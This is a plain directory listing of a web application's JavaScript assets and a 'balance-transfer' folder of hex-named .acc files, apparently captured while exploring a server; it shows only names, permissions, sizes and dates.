-rw-r--r-- 1 www-data www-data  69K Jul 25  2016 bootstrap.js
-rw-r--r-- 1 www-data www-data  37K Jul 25  2016 bootstrap.min.js
-rw-r--r-- 1 www-data www-data  94K Jul 25  2016 jquery.js
-rw-r--r-- 1 www-data www-data  17K Dec 15  2016 sweetalert.min.js
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 theme

/var/www/bank/assets/js/theme:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data 2.6K Jan  4  2014 calendar.js
-rw-r--r-- 1 www-data www-data  420 Jan  4  2014 custom.js
-rw-r--r-- 1 www-data www-data 1.8K Jan  4  2014 editors.js
-rw-r--r-- 1 www-data www-data  772 Jan  4  2014 forms.js
-rw-r--r-- 1 www-data www-data  28K Jan  4  2014 stats.js
-rw-r--r-- 1 www-data www-data   70 Jan  4  2014 tables.js

/var/www/bank/balance-transfer:
total 4.0M
drwxr-xr-x 2 root     root      76K Jun 15  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun 15  2017 ..
-rw-r--r-- 1 root     root      584 Jun 15  2017 0016a3b79e3926a08360499537c77e02.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 001957ef359d651fbb8f59f3a8504a2f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0026d872694cf17e69618437db0f5f83.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 003e8ffc123735afbcc7b219851d45c3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 005953d5f1fcb53ed897063881a91e00.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 00895e6b8d2389faa6cf736388dd6907.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 00a929b4f7ece04c5da8fac8da8370a0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 012713bf9cfc1e5adfbdbc14dd32a1c6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0130afdc7d28350eaa7018736d8e75af.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 013fc67de873fdc3f001a3c8fd6fb252.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 01a13d9db1b513230047f8951f5ee426.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 01d537afce94cd70b6dc734db310d34f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 021d32498ed3715cf0cfa4cba3233de6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0278047e279b4b7affb284d5d27fff61.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0285de4a0d1ae2cae6d4d2be03c71ad7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0298cb464791ff4a6c5447114fb4bc18.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 02ab56265052fcbffa94aa8868955809.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 02e28c6da52d30a3d4029c4fee24a627.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 03051d2fc082a4486cefc8e4f3aef886.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 03089964c6d31d512907f2fd2547d690.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 030af0ec1428a8fe5a7eaf9e684941e8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 036aacee702e369846c184cdf374912b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 03a6a13a7c61cf6bc7753d4c2d41d6d8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 03c158aca0eb3493b4730ba5ed0d3a80.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 03f08dbc9f58c93aea6413111787bdeb.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 040a56b78a97b8eb348b5f205d42de7f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 04488e1db8e68fcf67684b78504f8f2e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 04671617d7bd3af5683a770e02f9fd56.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 048ed94fee4e036472a1bdb8795a3aef.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0493facd8932d18d6657c7dff0bc151c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 04bb6e0356b43d31d25277a4fa56884f.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 052a101eac01ccbf5120996cdc60e76d.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 0589423587b67002f0a64101e821ba18.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 05f064ba91479a01e1b9456afa6e9b2f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0603c831aa543636b14c9047ab65ca73.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 06a0b516439755f9b849a2d060df6ce7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 06a80cb247151573c2731863af1e0f3f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 06cc59f58d34941d93a9f7daa54aeb30.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 06e5ed6835032cadeedd8cbc2525c1e8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 070a07a40fcc8c5f6dfbb0f16f6917b0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0765aa4c97f0857f49921bc32281f6e5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 07dbd94cf3a4b07d4ac13d0ed5573cfc.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 07df2d04959d3f89118a7994d52d002d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 07fe9d5980ec8dd731bd1cc22efd6bd4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 082e4bdf27365d8205490fbe36bb8028.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0832c922148dd0722d6da8d1f438da1a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 085349be3fa3df64b0fc3f2c8a7b95b7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 08cc112526d390bc424e7b4b01848e7b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 098bab0276720c1c52abc420af43bd9d.acc
-rw-r--r-- 1 root     root      581 Jun 15  2017 09ed7588d1cd47ffca297cc7dac22c52.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 0a0b2b566c723fce6c5dc9544d426688.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0a0bc61850b221f20d9f356913fe0fe7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0a2f19f03367b83c54549e81edc2dd06.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0a629f4d2a830c2ca6a744f6bab23707.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0a9014d0cc1912d4bd93264466fd1fad.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0ab1b48c05d1dbc484238cfb9e9267de.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 0abe2e8e5fa6e58cd9ce13037ff0e29b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0b45913c924082d2c88a804a643a29c8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0b59b6f62b0bf2fb3c5a21ca83b79d0f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0b6ad026ef67069a09e383501f47bfee.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0be866bee5b0b4cff0e5beeaa5605b2e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0c04ca2346c45c28ecededb1cf62de4b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0c4c9639defcfe73f6ce86a17f830ec0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0ce1e50b4ee89c75489bd5e3ed54e003.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0d3d24f24126789503b03d14c0467657.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 0d64f03e84187359907569a43c83bddc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0d76fac96613294c341261bd87ddcf33.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0e5a884b0b23e98446c460b4dbafc3ee.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0ec03beb3832b05908105342c0cc9b2f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0ec280c07bff51e211f18118aaf110b4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0efa8fd313b2a59bb07e8a656dc91412.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0f2b9dad0ad001b9b14d64112de3fbcb.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0f6f890eddff9b4cf0deb3269ee0a358.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0f8495f20c0711377b9d082d53280d3d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 0fddb291b4c92a91d97d9f148dce4371.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 0fe47df5c5dd6fed071b81c5ccfd29e2.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1005c4b820f30569e0a8e290f2893299.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 10805eead8596309e32a6bfe102f7b2c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 10b8b7b1713f1dca5ad72ea3ebcab475.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 10df9dfe748997d7bbfb5d64cee284b9.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 11c1ad9b01c6654be1d995a09a9f2f3b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 120456185fa840aad81c6ea38b9f70d7.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 124a5db27699c0e2a3480a7c091bc128.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 12c2d8fb0ed8df68972e2fe4dc5b4609.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 12e8afda9f95bb015ffa5c1ef3d503d0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 12eb6b074fcf0adfcf0274fbf0947edb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1308cb859a75a2b66d72b3a36ce87ace.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 13394b7bf1e2ffb15c94045398826b52.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1385939e3f7c5d728fbb1a665e5fe26a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 13b790b817ceda1763f695cb4b1151b8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 13c0e6b11cf2b1525d38143037cdcd51.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 13d91ebcbb1af4df0bf8a82fd3a71476.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 141d68e343b77ac020de3087e3efbf3e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1458d8c0b03eb55944f3928fe45c66d8.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 146e50a62df35e5cc05f0e644f1b4c87.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 146e61f82b0174bf416c2cc895e27136.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 14e30bd14c29ccd86b16115784f405f5.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 151b3d396f2e1f6f9bafd75e37fe90f8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1557e069780d9eac7f88a6e10e7cd90b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 15a9158ee078d8a058736267caf8b910.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 15baa7e6a3b477fc3d6b9567d2a71c56.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 15f5a217c839e4f6ef0cc46dc01e494c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1634428ff1f73afb7db9df3e21a99b54.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 164c1839f2d21dd77bff5a7933087f4b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 16a2ff45c69de2df023ca9dfb2ce12bf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 17115b9167f94b0fc8de6a075f7a7c3c.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 172bf2c0394fce86f60e75170afc8f9f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 17d462006481467102be11a86832691d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 18bf04910a0623a4c2d6287341b53ddb.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 194f2b25230c4cfcb7c2092a006502cd.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1967bd76aaafed760132a851a3d7c8d6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 198007304d3f3413936f9634ff44573b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 19f06120f156391687ba9625de702836.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1a419fd7740a76ba3124528ff0419624.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1abdae025e433fb00a8c684a853c191a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1ac6533f614e99cb74d2aaf00cd1b1e5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1ae934f62a8e5dce095c4f5da019ce0f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1b6c33d239e59dc15e93559b7ee62475.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1b7486f714169cae6ee7e61b8bf775c5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1bc66277954f4d50b50a831df74bdf65.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1bd2ad5271b2ca76af9dd5d7f68425f3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1bd6e15ea2cb7a17782a9287c76023e0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1c3289e8d28be50af870b160732314c9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1cb73099b330049d199326b5e6148510.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1cbcd839823f160b914752703a22567e.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 1cc7ceed882e806f92df160337e1cef6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1d9ec4f06b0b4f89bab1b559260108c6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1dd7e55cc130a4b6ea8ce6cb6d7564f5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1dfea613df52206550c8a254baae5bc6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1e32e4e412da54833e813bff5c8beb5d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1e4e8f4b7afc6067e531f5bde60d94fd.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1e5e07a4a277061fe97106f08ff478de.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 1e6784a6a1f6ca5030db8856cc512eb9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1e98bdb0f10109ed73058fba9c5c1752.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1ec19e69fed7d847bb7566f19e8f4050.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 1f4289c9c2d6999e9fd97bfe81a02ffc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1f83271fd1c62b4714abc3a00327b4e7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 1fe096b278f292f3ae68280d7ffac179.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 20207ac92b72028c5b4abeb7287280ed.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2045012eb38d171e1e24ba7ddc6fd11b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 20762f2c75a18c8a0911495214989878.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 20a2ec5aacbead218c3d170237debf5e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 20b2090845b0563afc69c4e7fec1e497.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 20c7d56557313b26a07a08c4634634ca.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 20f4f2fa9b091725330e1b98c3d0edb3.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 20fd5f9690efca3dc465097376b31dd6.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 21c74f96797dbd154c54873c557f872d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 21d5e879ab9135cbc4f54bfb4a12dfa8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 21efa62f7f2e77c1993fb67c69abae22.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 21f29d019d2dbda1620ba49978d6c6ca.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 21f35deb6f99be95782b7d978d1bb66f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 221c5aa7f92fd53c68f85ba73f8935be.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 229b603e25630350619dc9b86a749c38.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 22c46b9ad0990cf7a73fad02a7731184.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 22fb78ab39db7a6c496838f594e377b6.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 235f306703512e4e178edbfd427eb860.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 23e1d6517c1a96557eb394a7969ec811.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 245131960374afdfd3af75590d81ffad.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 24618f7079b4f5956459c1a10abbba14.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 254770162ed5902fbbaf2460e91bebb5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 254c4a868ba0612edca14c19af07e30f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 25ad3803118518c540b30e066e9f7a03.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 25ca010ecbb68e63f8f6e4df2dbc7a0a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 25f38959dbf273accce1ca8957c69dd0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 26678f1b6310e7619a2a39f4301fdeb1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 267ed1121ea6c0c9e2551620b10be6c9.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 26ba609dea7477bcb7a17b0912ff0ab4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 26ca8b69c7a1d37af08ede635b38ac25.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2744c3aa5ea3c1e0c43ba0b07e6d7ab7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 279e838eea41bd10c7d57738361fba64.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 281a248eac5b77324ea4b0871ad071ce.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2839c1573b4e3e405f28b8e975d3f04a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 28803c906e088ad88ec06e251c37db91.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2891c5f2cfce57c5d7ce5eb17711ad1e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 28ae5f87693c37f5b43b93d6dcb192af.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 28c5858b4c1f3f5272b505af792a131a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 290af0ac02bd7a0aefa440273a797520.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2928dcb8005fec74d484f4a44d55866a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2940290175b241c7fcf89c2abbfbfdfc.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2946c98cb4e7da90b97c8a46f381e55f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 29ab3224af5d2955eb9f6f9604b09b47.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 29ca4e8271e92fd18972da499d83faa9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 29cb0f36e1b09fafd64dfc475cd154ee.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 29cf9851f990721b4078930a52371855.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 29e6bb8c09665df95fbf0c8ff5e184fd.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 29ee355c82a4bbe25787fc0b4d96dd45.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2a0267dc11bdb1d6853b08335e9f030d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2a3d905e1abcf6d728dbb6f33e3b3093.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2a87311fdee4da24b126bd114058b9e0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2acb388eebe1c2206052ac5ec3bd6edc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2b132b6e7781da0ff92bcc4a186e7173.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2b3be36d865a5a40250942b5c8f54dbf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2bf7e04143696925b74ff2d58e48bb43.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2c07b69f32dbd283b47b524edb0053ba.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2c2fed06d94f69685882dac0d9ce9cc8.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2c46469b9fac25ad81268c1d2998cdd6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2c51591fcbda7b91ca9f56b586f3ca55.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2c5b01899d473f77962df31812601294.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2c7701c77068b9ca7244626133c2ec8d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2ca3519fc00af7c9d63e58b9df82d4f8.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2d07d6a5015dd654b4ca0f32a51906d5.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2d2ef1d233841341c13d2d8938cae003.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2d9e6682bb5f480978b1a8f61d375bd0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2db5f802521a622c4cd64c83eddc07d6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2e080ba377f32a78b84231e25673d519.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2e5192979d89746230024fb2af498237.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2e5bc9bbaa7e60b1bc88c5ffa46b47a5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2e8783c6f4ceba1ca5d9f091a7a3f319.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2e8b4d1333646e8ed98637bf1793c78e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2ebac37c664663f382ddcf74c9295289.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2f3cf398674340a1c3959e6ce1a4f902.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 2f6db9d426117b3921668d15c3667c7e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 2fa45e4ec782cc8a067941b8a4e4eac1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2fb844630d50127f324bf0734046bc56.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 2fe3b2cc3fe0ed617e7650f7a09aa7e7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 2ffe137ee7c65733590febfbfc5040ae.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 30033ed5c2aedb6b8e8babea24612974.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 301120b456a3b5981f5cdc9d484f1b3b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 30a392f1433bd45a4bba176dc97c9de4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 30df9189d0b3eeeeac5f691bba0fc293.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 30f837801133d02bad7737387693fc77.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 311b41a1d40429482b14e395f56423cb.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 31352ca79f8973c646dc89434f91080a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3154e6528069850adc415ae29414f380.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 31553a37be725d7b5d1add5acae714f2.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 31586fb5ead11d90c96bbdbb463dee21.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 31c0b98fc822defc124dbc16bfe44333.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 31d7f7440558b43d32b40a3927724fff.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 321d724386f8ab165f68fff922ee79c3.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 32203b71b000edd1b90258a14bf28a55.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3293cf3299da33ed5e173453e98bab68.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 32bd197fe15d5ac657a7789f5adf672f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 32e89b9885e8e2c7c3bd635bea89fd0a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 32f6724fef117c0dc2de8e69180bc7e1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3313d744daa87043953a44fbb65b2981.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 33baf312460423d88dc681c5aafc0b0a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 34457654bf404f9419d68bc8c6f580bb.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 346bf50f208571cd9d4c4ec7f8d0b4df.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 346dfb647268bec0a6e05bd60647b6e6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 347c3e55d7823a9758de01598aa33f2b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3491e73a84a342b518cd7c7df3e5d6a2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 34df994940887200e952babc211df6f3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 34ef76485eadbb67f83a4fb1fef184f8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3545c87f1008dbaf5d6e1faf365dc00b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 366d5953a9b993d1abec74d4bd4f47f5.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 377af4fb3c552283d364e04bdd45a2ab.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 378be8c1fedf59f60349f6bad4b7db95.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 37eab7fc827b5398e708fc8d9bf96adf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 385e8f506e4d16fcb3b4f04cb2134bd1.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 386fe978dd93c84898ffed478ddfc479.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 387aa6875b5e6c7225e120ef577bb484.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 387f8c91842b29f0596a433847400d68.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 388a6d78ca9a5677cfe6ac6333d10e54.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 388bd4708d5399f3b57f01b743d41be8.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 39095d3e086eb29355d37ed5d19a9ed0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3918cc808d11bb1c24df866cc0e2a69c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 397bfae2d17164399945b7e8e5630a86.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 39f65afc6e443a171c30bf66fae63db1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3a33c5bf7ef7abcf81c782a79a43d83c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3a682bcef6c37e5541e1fb543fa966b3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3a6cd651f5316bcc9794b1aedeabd72b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3ae7e40b423769e8829056053be4b770.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3b0b0922fbcee3da3c6b7307bd1bb75e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3b44d9cbc04be9fb5f1a63e666203815.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3b823513d5f5255facecc595b6c20c41.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3bb925999bfe2f00e955e35ae5c45acf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3c03e292162c87b33e89e7c34a7a2d70.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3c573c41d23c5c5b9ee8c2907d079697.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3cc285ba7c9ab83973717b64f690d3e0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3cfe8573c12153ad69e3ebe9f2451783.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3d3e2799ae9dab5057b9ef7dc66138fd.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 3d5e1f376f09b7704eb9309448db2320.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3e15fba8222b4257f517f73ffa6e8dbf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3e4c7ee45bec4977653fa1ff687703a4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3e7269a8cbf32786733aa2073e29d867.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3eab44115dce3fcadf150d7e98e2f456.acc
